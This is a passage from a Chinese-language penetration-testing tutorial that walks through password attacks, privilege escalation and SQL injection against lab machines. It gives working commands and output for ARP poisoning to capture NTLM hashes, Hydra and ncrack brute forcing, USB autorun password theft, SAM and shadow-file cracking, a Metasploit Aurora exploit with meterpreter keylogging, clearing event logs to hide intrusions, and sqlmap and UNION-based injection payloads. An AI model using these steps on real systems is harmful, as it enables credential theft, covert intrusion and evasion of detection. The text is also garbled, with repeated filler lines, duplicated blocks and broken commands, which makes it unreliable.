

- `Cain and Abel` 工具：使用 `Cain and Abel` 工具。告诉它你想如何使用该网络。选择进行中毒。选择运行 `NTLM` 身份验证。进入嗅探（`sniffers`）然后选择主机（`hosts`）并添加。点击所有主机。进入 `ARP` 并勾选我们想要进行 `ARP` 中毒的网关和目标。
- 往网络中的任何机器查看其共享内容。



- 然后进入 `cain and abel` 点击 `passwords`，然后点击 `SMB`，我们找到了 `LM` 哈希和 `NTLM` 哈希。我们根据这些哈希破解密码。

| 客户端 | 用户名 | 域 | 密码 | 认证类型 | LM 哈希 | NT 哈希 | NT 服务器链 | LM Hash |
|---|---|---|---|---|---|---|---|---|
| 192.168.28.138 | lane | | | NTLM Session-S | 5497a5e6662 | D764a155d1 | 56d8c78202 | 00000000 |

### g) 主动在线攻击：

```
主动在线攻击
密码猜测
木马 / 间谍软件 / 键盘记录器
工具
HYDRA: hydra -l msfadmin -P /pentest/passwords/wordlists/darkc0de.lst
192.168.28.129 ftp
crack -u msfadmin -P /pentest/passwords/wordlists/darkc0de.lst -p
5900 192.168.28.129
http://www.insidepro.com/dictionaries.php (密码列表)
```

- 你可以在 `linux` 的 `/pentest/passwords/wordlists` 中找到密码字典。你可以使用此命令找到 `ftp` 服务的密码：

```
hydra -l msfadmin -P /pentest/wordlists/darkc0de.lst 192.168.1.123 ftp
```

其中 `msfadmin` 是用户名

```
root@bt:/pentest/passwords/wordlists hydra -l msfadmin -P /pentest/wordlists/darkc0de.lst 192.168.28.129 ftp
```

如果在文件中，可以找到 `ncrack`。

- 你可以使用 `ncrack` 达到相同的目的
- `ncrack -v u msfadmin -P /pentest/wordlists/darkc0de.lst -p 192.168.28.129 ftp`

```
root@bt:/pentest/passwords/wordlists ncrack -v -u msfadmin -P /pentest/wordlists/darkc0de.lst -p 21 192.168.28.129

starting Ncrack 0.ALIA ( http://ncrack.org ) 2013-06-06 21:33 EDT

discovered credentials on ftp://192.168.28.129:21/ msfadmin

service: 192.168.28.129:21 ftp: msfadmin

dates: 24:30, found: 1(of) done

error: 22%

discovered credentials for ftp on 192.168.28.129:21/tcp: msfadmin
```

- 你可以从以下处下载密码列表

### h) 使用 U 盘窃密码：

一种物理破解密码的新酷方法，意味着物理方法对于这种方法非常重要。我们将使用 U 盘和一些应用程序来破解存储在计算机中的密码。我们知道人们在大量网站注册并记住密码，它们都存储在计算机中。我们将使用 U 盘自动恢复它们。是的，我们需要将 U 盘插入任何端口。这将有效：

`http://www.nirssoft.net/password_recovery.html`



- 你有一个闪盘，当你插入设备时，它将窃取信息。`nirssoft.net` 有一个工具可以恢复所有密码。下表描述了 `Windows` 最流行的恢复工具。

| 工具名称 | 描述 |
|---|---|
| `MessengerPass` | 恢复 `Windows` 最常用的即时通讯软件：`MS Messenger`, `Windows Messenger`, `Windows Live`, `Yahoo!`, `QQ Lite`, `AIM Messenger` |
| `MailPass` | 恢复以下邮件程序的密码：`Windows Live`, `Mail Express`, `Microsoft Outlook 2000` (`POP`, `IMAP & SMTP`), `Inbox`, `Eudora`, `Net Mail`, `Mozilla Thunderbird` |
| `MailPassView` | 可以恢复网页邮箱账户密码 |
| `IEPassView` | `IEPassView` 是一个通过浏览器恢复密码的小工具。它支持新的 `Internet Explorer 7.0` 和 `8.0`，以及旧版本 `v4.0` - `v6` |
| `ProtectedStorageView` | 恢复 `Windows` 存储中的所有密码，包括 `Internet Explorer` 的自动填充密码、保护站点等 |
| `Dialass` | 密码恢复工具，检索存储在 `Windows` 拨号条目（连接和 `VPN` 连接）中的密码。该工具适用于所有版本的 `Windows`：`Windows 2000`, `Me`, `Windows Vista`, `Windows 7` 以及 `Windows Server 2003-2008` |
| `BulletPassView` | `BulletPassView` 是一种检索标准密码框密码密码。显示密码后，你可以轻松将其复制到剪贴板或保存到文本文件中。你还可以恢复 `Windows` 应用程序密码，如 `CafeFTP`, `FileVNC` 等 |
| `Network Password Recovery` | 恢复 `Windows XP`, `Windows Vista`, `Windows 7` 和 `Windows Server 2003-2008` 存储的网络密码 |
| `SniffPass Password Sniffer` | `Windows` 工具，可捕获通过网络适配器的密码并立即显示在屏幕上。你可以使用它来恢复丢失的 `Web-FTP` 密码 |
| `RouterPassView` | `Windows` 工具，可以从路由器保存的配置文件中恢复密码。只有当你的路由器保存了 `RouterPassView` 可以检测并解密的配置文件时它才有效 |

### 使用 U 盘窃密码的方法 1

- 获取 `mspass`, `mspv` 密码示例中的程序：`ievp_setup.exe`, `mailpy_setup.exe`。安装 `ievp` 和 `mailpy` 并从程序文件中提取它们的程序。



- 在文件夹中创建 `autorun.inf`



- 创建 `progstart.bat`



- 将文件保存在闪盘的根目录下。在使用闪盘后，密码将保存在文本文件中

### ii. 使用 U 盘窃密码的方法 2：`USB` 工具

- 我们使用 `USB_Utilities`

| 工具名称 | 工具名称 |
|---|---|
| `USB` 转以太网连接器 V2.4 | `USB THIEF` |
| `USB COPYNOTIFY` V1.3.5 | `USB SAFELY REMOVE` V.5.31.017 |
| `PASSWORD PROTECT USB` V3.0.2 | `USB SMART SAMSUNG TOOL` V1.12 |
| `ID USB LOCK KEY` V1.2.2 | `USB TOOLS INFO / CONTENTS` |

- 选择 `USB thief`。浏览选择你解压 `USB` 工具的地方。会有两个文件夹。



### i) `Lan Manager` 哈希（`Hash`）：

### 什么是 `LAN Manager` 哈希？

`微软`使用 `NT Lan Manager` (`NTLM`) 哈希加密来确保网络传输过程中密码的安全。根据密码的不同，`NTLM` 哈希值可能非常弱且容易被破解。

当此密码使用 `LM` 算法加密时，它首先会被转换为大写：`123456QWERTY`

密码会用空字符（空白字符）填充，使其长度达到 14 个字符：`123456QWERTY`

在加密此密码之前，这 14 个字符的字符串被分为两半：`123456Q`

每个字符串被分别加密，并将结果拼接在一起。
`123456Q` = `BF11E04AFAB197F`
`WERTY` = `F1E9FFD0CC75575B15`

注意：哈希的前半部分包含字母数字，使用 `Lophcrack` 破解需要 24 小时，而后半部分只需要 60 秒。

注意：`Windows Vista` 和 `Windows 7` 中已禁用了 `ImHash`。
`工作组`环境中的`微软`会将密码注册在 `SAM` 文件中。它位于 `system32/config` 文件夹中。
当操作系统运行时，我们无法对 `SAM` 文件进行任何操作，因为它受保护。

- 获取 `SAM` 文件中的数据有两种方法。第一种方法是带入一个可以提取 `SAM` 文件数据的程序，第二种方法是通过活动盘 `CD` 从另一个操作系统启动。

- 当`微软`保存密码时，它会将其保存在 `LMHash` 中。现在有了 `NTLM` 哈希。
- `工作组`环境中的`微软`会将密码注册在 `SAM` 文件中。它位于 `system32/config` 文件夹中。
- 当操作系统运行时，我们无法对 `SAM` 文件进行任何操作，因为它受保护。
- 获取 `SAM` 文件中的数据有两种方法。第一种方法是带入一个可以提取 `SAM` 文件数据的程序，第二种方法是通过活动盘 `CD` 从另一个操作系统启动。

### I. 获取 `SAM` 文件数据的方法 1

- 如果你以普通用户身份登录在机器上，并且想要获取该机器的管理员密码。
- 如果你不是管理员，请询问管理员，你可以使用获取程序。点击破解（`cracker`）。


### II. 使用 `CD` 重置密码或破解 `SAM` 哈希的方法 2：

此方法适用于你未登录设备且没有账户的情况。在这种方法中，你可以使用 `PassSafe CD` 重置密码。问题是用户知道密码被重置了。因此另一种方法是尝试破解 `SAM` 文件中的密码。


选择重置或更改用户账户密码。为你想要更改密码的用户设置新密码。


- 尝试选择导出密码哈希文件。将导出的密码保存到我们中。你必须从 `USB` 盘启动以便将文件保存其中。

- 打开保存的文件。

- 文件内容为：用户名：用户 ID:LM: NTLM 哈希

我们将破解 `LM` 哈希：

```
Administrator:500:PASWDLM:3116EE84E062ED24:AD33B434B5E4127F:::7390C68B379:用于管理计算机/域的内置账户;

Guest:501:PASWDLM:3116EE84E062ED24:AD33B434B5E4127F:::用于访问计算机/域的访客内置账户;

$::501:PASWDLM:3116EE84E062ED24:AD33B434B5E4127F:::3720A4E6D9F1A6E4A7E2B1D3A7:用于提供协助;

$guest:501:PASWDLM:3116EE84E062ED24:AD33B434B5E4127F:::E1C9D9E6F6B1C6E4A7E2B1A2B3D1A1A237C0AA8B7F9B557B16 是供应商账户
```

### k) `Linux` 中的离线密码破解：

- 在文件 `/etc/shadow` 中注册的密码


```
vivek:$1$nffcc5pGteyHdicpGOffXk4ow#5:13064:0:99999:7:::

1 2 3 4 5 6

1-User name（用户名）：你的登录名称
2-Password（密码）：你的加密密码。密码长度应至少为 6-8 个字符，包括特殊字符和数字
3-Last password change（上次密码修改）：自 1970 年 1 月 1 日以来最后一次修改密码的天数
4-Minimum（最小）：两次密码更改之间的最少天数，即用户允许更改密码前的剩余天数
5-Maximum（最大）：密码的有效最大天数（之后用户将被强制更改密码）
6-Warn（警告）：密码过期前警告用户必须更改密码的天数
7-Inactive（非活动）：密码过期后账户被禁用的天数
8-Expire（过期）：自 1970 年 1 月 1 日以来账户被禁用的天数，即指定无法登录的绝对日期
```

- 离线密码破解：


```
离线密码破解
破解 Unix 中的 Root 密码
Cat /etc/passwd
Save pass.txt
```


# 渗透测试与后渗透

## 基础操作示例

`cat /etc/shadow`
保存为`shadow.txt`。
`cd /pentest/password/john`
`/unshadow /root/Desktop/pass.txt`
`/root/Desktop/shadow.txt > /root/Desktop/crack.txt`
`/john/root/Desktop/crack.txt`

```
- 将密码文件`passwd`和`shadow`保存到`password.txt`。

  `cat /etc/passwd` and save it to `password.txt`

  `cat /etc/shadow` and save it to `shadow.txt`

- 使用`join`工具

```

```
#cd /pentest/passwords/john

#/unshadow password.txt shadow.txt > crack.txt

#/john crack.txt

```

```
root@bt:~/pentest/passwords/john

kate(2328)@kdecore (services) KMimeTypeFactory::parseMagic: Now parsing "/usr/share/mimeinfo/magic"

root@bt:~ #kate /etc/shadow

kate(2339)@kdecore (services) KMimeTypeFactory::parseMagic: Now parsing "/usr/share/mimeinfo/magic"

root@bt:~ #kate /etc/shadow

kate(2351)@kdecore (services) KMimeTypeFactory::parseMagic: Now parsing "/usr/share/mimeinfo/magic"

root@bt:~ cd ~/pentest/passwords/john

john /root/passwd.txt /root/Desktop/passwd.txt shadow.txt

john ~/pentest/passwords/john > /root/Desktop/crack.txt

Warning detected hash type "sha512crypt", but the string is also recognized as "md5"

Use the "--format=crypt" option to force loading these as that type instead

Loaded 1 password hash (sha512crypt 32/32)

(root)

guesses: 1 time: 0:00:00 DONE (Fri Jun 7 15:23:59 2013) c/s: 53.84 trying

(root)

Use the "--show" option to display all of the cracked passwords reliably

root@bt:~/pentest/passwords/john#

```

## 理解 `hashcat` 工具和 GPU 技术


`hashcat` 工具用于解密哈希值密码。它可以破解 `md5`。`md5` 是一种单向加密，这意味着密码可以被加密但无法再次解密。

下载 `hashcat` 来破解 `md5` 哈希值。`hashcat` 会将两个哈希进行对比。它会获取一个单词并对其加密，然后与密码哈希进行比较，如果它们相等，则两个单词是相同的。我们有三个版本：`hashcat`、`hashcat-gui` 和 `ochash-plus`。


## 权限提升

权限提升是指使用更高的权限。某些后门可以获取管理员权限。


如果攻击者使用非管理员用户账户访问网络，下一步是获取更高的权限，提升到管理员级别。

示例
`MS11-080 - CVE-2011-2005 Afd.sys` 权限提升漏洞

- 若要了解用户，进入 `g:\documents and settings`，你将找到机器上所有用户的配置信息
- 若要获取用户信息，输入：
  `>Net user`
- 使用 `MS11-080` 更改权限
  `>MS11-080.py - xp`

```
C:\Documents and Settings\john>cd desktop

C:\Documents and Settings\john\Desktop>dir

Volume in C has no label.

Volume Serial Number: 085

Directory of C:\Documents and Settings\john\Desktop

06/09/2013  12:32 PM    <DIR> .

06/09/2013  12:32 PM    <DIR> ..

06/09/2013  12:22 PM               12,177 MS11-080.py File(s)

                                     Dir(s)             38,694 bytes

C:\Documents and Settings\john\Desktop>MS11-080.py

```

## 理解键盘记录器和间谍软件

如果所有尝试都失败，键盘记录器是攻击者的选择。键盘记录器可以通过硬件或软件实现。硬件记录器是连接键盘和电脑并将按键保存到文件或内存中的设备。为了安装硬件记录器，攻击者必须拥有系统的物理访问权限。软件记录器是位于键盘和操作系统之间的软件，可以记录每次按键。软件记录器可以通过木马程序或病毒部署。

- 存在硬件记录器和软件键盘记录器


- 硬件记录器连接键盘和电脑并记录每个字母。它不会被间谍软件检测。
- 存在检测键盘操作的程序。
- 键盘记录器可以执行任务。
- 真正的间谍可以执行任务。


你可以使用 `metasploit` 键盘记录器。

## `metasploit` 键盘记录器和权限提升

```
msfconsole

use exploit/windows/browser/ms10_02_aurora

exploit(ms10_02_aurora) > set SRVHOST 192.168.28.133

exploit(ms10_02_aurora) > set SRVPORT 80

exploit(ms10_02_aurora) > set URIPATH /

exploit

sessions -l

sessions -i 1

help

getpid

ps

migrate 180\keyscan_start

keyscan_dump

```

- 写入：

`msfconsole`
`MsF-search windows/ms10_2`
`Use exploit /windows/browser/ms10_02_aurora`
`>Set SRVHOST 192.168.28.133` (你的 `ip`)
`>Set SRVPORT 80` (程序监听的端口)
`>Set URIPATH /`
`>Exploit`
`>Sessions -l` (访问所有会话)
`>Session -i 1`
会话中的某些命令：
`Hashdump` (获取被访问电脑上的文件)
`Getpid` (获取级别)
`Migrate 948` (提升你的权限)
`Keyscan_start` 在客户端上制作键盘记录器
`Keyscan_dump` (获取信息)

```
msf exploit(ms10_02_aurora) > set SRVHOST 192.168.28.133

msf exploit(ms10_02_aurora) > set SRVPORT 80

SRVPORT: 80

msf exploit(ms10_02_aurora) > set URIPATH /

URIPATH: /

msf exploit(ms10_02_aurora) > exploit

[*] Started reverse handler running on background job: 192.168.28.133:4444

[*] Server started.

```

```
root@bt: ~

File Edit View Terminal Help

C:\WINDOWS\system32\wuauclt.exe

meterpreter > getpid

Current pid: 2412

meterpreter > migrate 948

[*1] Migrating from 2412 to 948...

[*1] Migration completed successfully.

meterpreter > popd

Current pid: 948

meterpreter > keycan start

Starting the keystroke sniffer...

meterpreter > keycan dump

Dumping captured keystrokes...

meterpreter > migrate 2412

[*1] Migrating from 2412 to 2412...

[*1] Migration completed successfully.

meterpreter > keycan start

Starting the keystroke sniffer...

meterpreter > keycan dump

Dumping captured keystrokes...

hi this is test

meterpreter >

```

## 间谍软件工具

有很多间谍软件


- 使用 `Spector`


- `eBlaster`

## 用户活动摘要：`user`

| 报告详情 | 活动 | 状态 | 计算机识别 |
|---|---|---|---|
| 聊天 / 即时消息 | 0 | ON | IP 地址: 192.168.28.138 |
| 在线搜索 | 0 | ON | 公网 IP 地址: 203.0.113.252 |
| 访问过的网站 | 0 | ON | 计算机名称: XP-1 用户名: user |
| 电子邮件活动 | 0 | ON | |
| 文件传输 | 0 | ON | 序列号: 2820OW0062626228 |

- 你可以使用间谍软件

欢迎使用间谍软件！
你于 8/23/2013 10:22:22 连接

间谍软件是一种强大的远程监控和管理工具。该软件允许你通过网络浏览器管理、监控和控制远程计算机。从你的列表中选择使用间谍软件。以下是你连接的远程计算机的权限：

访问权限
你对远程计算机拥有以下权限：

- 允许键盘记录
- 允许远程桌面
- 允许打开窗口
- 允许查看文件
- 允许查看浏览器
- 允许运行应用程序
- 允许查看注册表
- 允许查看临时历史
- 允许关机
- 允许删除日志

## 理解 `Rootkits`（根内核）

它们是某些能够保持 `root` 权限并隐藏你创建的所有进程的程序或工具。`Kit` 指允许你控制计算机的工具组。分为应用层 `rootkit`（`application rootkit`）和内核 `rootkit`（`kernel rootkit`）。应用层 `rootkit` 可以控制某些应用程序和如 `ls`、`dir` 等命令。它们可以隐藏后台进程，并控制和隐藏端口。内核 `rootkit` 是最危险的 `rootkit`，如果系统被内核 `rootkit` 感染，我们需要更换操作系统。它会感染机器的内核。


## 理解如何隐藏文件


我们可以通过 `attrib` 命令来隐藏文件，该命令可以更改文件的属性。

- 在 `c:` 盘创建文件 `1.txt`，并使用命令 `attrib +h` 更改其属性并将其隐藏。

```
C:\cd d

C:\dattrib +h 1.txt

```

- 我们可以通过 `ntfs` 流属性隐藏 `ntfs` 驱动器中的文件。

使用以下命令创建一个文件 `test.txt`。使用相同的命令打开它。

```
C:\Documents and Settings\user>cd

C:\cd d

C:\dattrib +h 1.txt

C:\dnotepad test.txt

C:\dnotepad test.txt:hide.txt

```


- 在文件名开头加上星号。要显示隐藏文件，按 `ctrl+h`，或者进入菜单，点击“显示隐藏文件”。

## 理解隐形术技术

隐形术是将数据隐藏在其他类型数据（如图像或文本文件）中的过程。在文件中隐藏数据最流行的方法是利用图形图像作为藏点。攻击者可以使用隐形术在图形文件中嵌入任何信息。黑客可以隐藏制作炸弹的指令、秘密银行账号或考试答案。任何可以想象的文本都可以隐藏在图像中。


## 理解隐藏踪迹和清除证据

理解如何隐藏踪迹和清除证据

一旦入侵者成功获取系统的管理员权限，他们就会尝试掩盖踪迹，以防止其在系统中的存在（当前或过去）。黑客可能尝试删除其在系统中的身份或活动证据，以防止当局追踪其身份或位置。黑客通常会删除已记录的错误消息或安全事件，防止检测。在接下来的章节中，我们将查看禁用审计和清除事件日志，这是黑客用来掩盖踪迹和避免检测的两种方法。

清除事件日志（`wevtutil cl Application`）屏蔽 `/remove /allusers` 历史服务器或 `VPN` 连接

- 打开事件查看器


| 信息 | 日期和时间 | 源 | 事件 ID | 任务 C | 操作 |
|---|---|---|---|---|---|
| 信息 | 7/23/2013 上午10:18:56 | 分发... | 10029 | 无 | 保存 |
| 信息 | 7/23/2013 上午10:18:56 | 信息 | 7509 | 无 | 创建自... |
| 服务 | 7/23/2013 上午10:18:56 | 服务... | 7056 | 导入自制... |
| 服务 | 7/23/2013 下午04:04:15 | 服务... | 7056 | 事件 7036 | |

- `Weavutil.exe` 用于控制机器中的日志。我们可以通过此工具清除所有日志。使用光中的脚本，它将清除所有日志。运行该文件，它将清除所有日志。


- 我们可以禁用审计。

```
Administrator: C:\Windows\system32\cmd.exe

Microsoft Windows [Version 6.0.6081]

Copyright (C) 2009, Microsoft Corporation. 保留所有权利。

C:\Users>remove /allusers

命令已成功执行。

C:\Users>

```

- 我们可以通过操作。

```
Administrator: C:\Windows\system32\cmd.exe

Microsoft Windows [Version 6.0.6081]

Copyright (C) 2009, Microsoft Corporation. 保留所有权利。

C:\Users>remove /allusers

命令已成功执行。

C:\Users>

```

## 攻击服务器

### 理解数据库

- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库
- 数据库

### 数据库


### 数据库


### 数据库


### 数据库


### `SQL` 注入


### 使用 `sqlmap` 进行 `SQL` 注入

`python sqlmap.py -u 'url' --cookie='cookie' --dbs`

```


## h) 使用 `sqlmap` 进行自动化 `SQL` 注入

`sqlmap` 是一个开源的渗透测试工具，可以自动化检测和利用 `SQL` 注入漏洞并接管数据库服务器。它带有一个强大的检测引擎，为顶级渗透测试人员提供了许多优秀功能，并拥有一从数据库指纹识别、从数据库获取数据到访问底层文件系统以及通过带外连接执行操作系统命令的广泛开关。

### 1. 获取数据库列表


```
root:/pentest/database/sqlmap sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'

sql: security=low --dbs
```

输出结果：

```
[19:05:01] [INFO] the back-end DBMS is MySQL
web application technology PHP 5.3.1, Apache 2.2.14
[19:05:01] [INFO] fetched database name
available databases:
* dwva
* information schema
* mysql
* phpmyadmin
* test
[19:05:01] [INFO] fetched data logged to text files under '/pentest/database/output/192.168.1.4/'
[19:05:01] shutting down at 19:05:01
```

### 2. 获取特定数据库中的用户

修改命令以输入数据库名称并显示该数据库中的用户：

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'

sql: security=low -D dwva
```

### 3. 获取特定数据库和表中的用户

修改命令以输入数据库名、表名并显示该数据库中的用户：

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'

sql: security=low --T users column
```

输入命令以显示所有用户信息：

```
| Column | Type |
| data | varchar(255) |
| name | varchar(32) |
| password | varchar(35) |
| user | varchar(15) |
| user_id | int(6) |
```

输出日志：

```
[19:05:52] (INFO) fetched data logged to text file /pentest/database/os/output/192.168.1.4
shutting down at 19:05:52
:/pentest/database/@map# python sqlmap.py -u "http://192.168.1.4/vulnerabilities/sql/?id=1&submit=Submit" --cookie "PSESSID=bodqea7g3fge1f8pr4vo5j" --security=low -u avatar --dump
```

它会询问是否需要进行字典攻击，回答 `yes`。

## i) 高级 `SQL` 命令

- `order by 3`
- `union select 1,2`
- `union select 1,version()`
- `union select 1,user()`
- `union select_schema,null from information_schema.tables`
- `union select table_name,null from information_schema.tables where table_schema='dvwa'`
- `union select first_name,password from dvwa.users`

有时因为防火墙的原因使用 `SQL` 注入工具。因此你需要手动操作。你需要知道表中的列数，通过这种方式你可以在服务器上运行命令。使用 `order by` 技术。

1. 将 `DVWA` 的安全性设置为 `medium`
2. 进入 `SQL` 注入并输入 `user id` 进行查询

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=1&submit=Submit`


在 `user id` 之后，输入 `order by (n0)`，即 `5--` 然后逐渐减小它。

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2--&Submit=`

你会得到错误。

`order 2` 可以运行，所以有 `2` 列。

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2--&Submit=`

我们想知道受影响的列，这样就可以运行想要运行的命令，我们将使用 `union select`。我们可以下载一个名为 `hack` 的工具来编写命令。

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=1,2--&Submit=Submit`

## 漏洞：`SQL` 注入


### 1. 获取数据库名

```
User ID:
ID: 2 union select 1,database()
```

### 2. 获取版本

```
ID: 2 union select 1,version()
```

### 3. 获取用户

```
ID: 2 union select 1,user()
```

### 4. 查询 `SQL` 中的表

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select table_name,null from information_schema.tables where table_schema=dvwa--`

但你需要对 `dvwa` 进行编码。

`http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select table_name,null from information_schema.tables where table_schema=0x64677661--`


## 使用 `sqlmap` 获取 Cookie 和数据

使用 `temper` 数据插件获取 `cookie`。

| 19:03: | 24 ms | 141 ms | 4388 | GET | text/html | http://... LOAD_DOCUME |
|---|---|---|---|---|---|---|
| 19:03: | 0 ms | 0 ms | unkno... | GET | pending | http://... LOAD_ |
| 19:03: | 0 ms | 0 ms | unkno... | GET | pending | http://... LOAD_|


| Request Header | Request Header Value | Response Header | Response Header Value |
|---|---|---|---|
| Host | 192.168.1.4 | Status | OK-200 |
| User-Agent | Mozilla/5.0 (CT; Linux x86; rv... | Date | Sat, 17 Jun 2003 21:55:02 GMT |
| Accept | text/html,application/xml+tm... | Server | Apache/2.2.14 (Unix) DAV/2 mo |
| Accept-Language | en-US,en=0.5 | Expires | Tue, 23 Jun 2009 12:00:00 GMT |
| Accept-Encoding | gzip, deflate | Cache-Control | no-cache,must-revalidate |
| Referer | http://192.168.1.4/vulnerabilities... | Pragma | no-cache |
| Cookie | PHPSESSID=bodqea7g3fgepr... | Content-Length | 4388 |
| Connection | keep-alive | timeout=5,max=100 |
| | | Content-Type | text/html;charset=8 |

获取网站的 `url`。


进入应用程序、回溯、利用工具、Web 利用工具，输入 `sqlmap` 命令：

```
# python sqlmap.py -u 'url' --cookie='cookie' --dbs
```

`http://pentest/database/sqlmap python sqlmap.py -u http://192.168.1.4/vulnerabilities/sql/?id=1&submit=Submit --cookie PHPSESSID=bodqea7g3fgevoj5;security=low --db`

我们将获取所有的数据库。


```
[19:05:01] [INFO] the back-end DBMS is MySQL
web application technology PHP 5.3.1, Apache 2.2.14
[19:05:01] [INFO] fetched database name
available databases:
* dwva
* information schema
* mysql
* phpmyadmin
* test
[19:05:01] [INFO] fetched data logged to text files under '/pentest/database/output/192.168.1.4/'
[19:05:01] shutting down at 19:05:01
```

修改命令以输入数据库名并显示该数据库中的用户：

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'
sql: security=low -D dwva
```

修改命令以输入数据库名、表名并显示该数据库中的用户：

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'
sql: security=low --T users column
```

输入命令以显示所有用户信息：

```
| Column | Type |
| data | varchar(255) |
| name | varchar(32) |
| password | varchar(35) |
| user | varchar(15) |
| user_id | int(6) |
```

```
[19:05:52] (INFO) fetched data logged to text file /pentest/database/os/output/192.168.1.4
shutting down at 19:05:52
:/pentest/database/@map# python sqlmap.py -u "http://192.168.1.4/vulnerabilities/sql/?id=1&submit=Submit" --cookie "PSESSID=bodqea7g3fge1f8pr4vo5j" --security=low -u avatar --dump
```

它会询问是否需要进行字典攻击，回答 `yes`。


- 使用 `temper` 数据插件获取 `cookie`

| 19:03: | 24 ms | 141 ms | 4388 | GET | text/html | http://... LOAD_DOCUME |
